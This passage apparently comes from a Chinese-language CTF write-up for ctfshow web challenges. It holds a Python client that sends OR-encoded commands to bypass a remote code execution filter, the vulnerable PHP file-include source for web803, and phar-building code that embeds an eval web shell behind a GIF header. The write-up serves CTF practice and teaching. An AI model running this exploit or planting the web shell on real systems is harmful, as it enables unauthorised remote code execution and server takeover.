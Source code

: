 ```php

def action(arg):
	s1 = ""
	s2 = ""
	for i in arg:
		f = open(r"D:\phpstudy_pro\WWW\rce.txt", "r")//填txt的文件位置
		while True:
			t = f.readline()
			if t == "":
				break
			if t[0] == i:
				# print(i)
				s1 += t[2:5]
				s2 += t[6:9]
				break
		f.close()
	output = "(\"" + s1 + "\"|\"" + s2 + "\")"
	return (output)


while True:
	param = action(input("\n[+] your function：")) + action(input("[+] your command："))
	data = {
		'c': urllib.parse.unquote(param)
	}
	r = requests.post(url, data=data)
	print("\n[*] result:\n" + r.text)
```

### web803
没有权限写目录，可以写tmp目录

phar文件包含
源码:
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file.'.txt')){
        include $file.'.txt';
    }else{
        file_put_contents($file,$content);
    }
}
```
<a href="https://blog.csdn.net/xxy605/article/details/120101090">phar文件生成</a>
```php
<?php 
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString("a.txt", "<?php eval(\$_POST[1]);?>");
$phar->stopBuffering();
?>
```